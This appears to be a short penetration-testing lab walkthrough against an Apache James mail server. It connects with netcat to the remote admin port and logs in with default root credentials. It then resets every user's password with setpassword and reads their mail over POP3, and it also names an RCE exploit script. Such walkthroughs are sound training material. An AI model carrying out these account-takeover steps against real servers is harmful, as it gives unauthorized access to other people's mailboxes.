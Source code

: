 #### 35513 RCE
exploit 35513.py
#### Manual
```bash - kali
nc -nvC $TARGET 4555
```
[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)
```bash - kali
root
```
```bash - kali
root
```
```bash - kali
HELP
```
```bash - kali
listusers
```
We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.
```bash - kali
setpassword marcus abcd
```
```bash - kali
setpassword john abcd
```
```bash - kali
setpassword mailadmin abcd
```
```bash - kali
setpassword jenny abcd
```
```bash - kali
setpassword ryuu abcd
```
```bash - kali
setpassword joe45 abcd
```
```bash - kali
quit
```
While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.
![[Port 110 - POP3#POP3 sh]]
```
...
+OK Welcome ryuu
+OK 2 1807
1 786
2 1021
...
```